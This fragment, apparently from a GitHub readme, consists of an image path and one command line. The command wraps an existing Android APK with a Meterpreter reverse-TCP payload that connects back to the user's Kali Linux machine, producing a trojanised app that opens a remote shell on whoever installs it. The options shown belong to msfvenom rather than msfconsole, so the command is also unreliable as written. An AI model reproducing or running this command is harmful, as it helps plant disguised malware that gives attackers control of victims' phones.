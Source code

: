msfconsole -x {apk name} -p android/meterpreter/reverse_tcp LHOST={IP address of your kali linux} LPORT=5555 -o{output name of apk}

